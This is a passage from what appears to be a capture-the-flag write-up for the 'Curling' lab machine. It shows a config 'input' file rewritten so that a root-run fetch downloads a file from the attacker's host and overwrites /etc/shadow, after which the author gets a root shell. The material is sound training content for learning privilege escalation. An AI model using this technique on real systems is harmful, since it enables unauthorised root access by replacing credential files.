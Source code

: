 we can do this by modifiying the `input` file like this:

```
floris@curling:~/admin-area$ cat input 
url = "http://10.10.16.6/my_shadow"
output = "/etc/shadow"
```

we start our `python3` webserver and we get a `GET` request :D

We then `su` as the `root` user and get our root shell! :D

![gotcha](gotcha.jpg)